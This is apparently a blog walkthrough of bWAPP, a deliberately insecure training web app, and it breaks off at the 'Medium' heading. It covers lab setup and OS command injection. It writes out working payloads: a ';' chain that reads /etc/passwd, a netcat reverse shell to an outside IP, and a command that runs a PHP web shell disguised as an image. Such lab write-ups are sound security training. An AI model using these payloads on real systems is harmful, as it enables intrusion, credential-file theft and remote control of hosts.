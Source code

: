 ```yaml
---
title: bWAPP 2023 Edition
author: alex
date: Sun 16 Jul 17:37:41 CEST 2023
categories: [Web Hacking]
tags: [bwapp, ctf, walkthroughs, web hacking]
img_path: /assets/img/posts/2023-07-16-bwapp-2023-walkthrough/
image:
  path: bwapp.png
  alt: bWAPP Logo.
---
```


**bWAPP**, or *buggy web application*, is a free and open source deliberately insecure web application, something similar to **[DVWA](https://github.com/digininja/DVWA)**. bWAPP helps us prepare to conduct successful penetration testing and ethical hacking tasks.

**bWAPP** has over 100 web vulnerabilities and it covers all major known web bugs, including all risks from the **[OWASP Top 10 project](https://owasp.org/www-project-top-ten/)** so it's perfect to help us prepare the **web app testing part** of the **[OSCP](/posts/oscpath-oscp-certification-guide/)**. 

**bWAPP** is a **PHP** application that uses a **MySQL** database. It can be hosted on Linux/Windows or another possibility is to download **[bee-box]()**, a custom Linux VM pre-installed with bWAPP.

I decided to go for the **bee-box**. To get it running, just host it in **VirtualBox** as another VM and connect it to a secure innet -- **[here](https://github.com/amtzespinosa/secure-network-for-ctf)**'s a repo where I explain how to set a secure network for vulnerable VMs.

Once running you'll be able to access the webapp from your Kali Linux VM by typing its IP in the browser. Head to the **bWAPP** directory and log in with the user **bee** and the password **bug**.

Once inside we can see a dropdown menu to select the vulnerability we want to test and the level of security.

## A1 - Injection

### OS Command Injection

We are presented with an input field that says *DNS Lookup*. This means that we will perform an `nslookup`, I assume, on the domain that we enter in the input field. If there is no filtering, we should be able to concatenate and execute other commands.

#### Low

No filtering at all. So we can use `;` to concatenate another command: `www.nsa.gov; cat /etc/passwd`. This will print the `passwd` file after the `nslookup` failed output. As a PoC let's try to get a shell. We have two ways:

1. Concatenate the command: `www.nsa.gov; nc -e /bin/sh 192.168.1.23 1234`
2. Or... remember that `shell.php.png`? We can execute it as well: `www.nsa.gov; cd images; php shell.php.png`

#### Medium
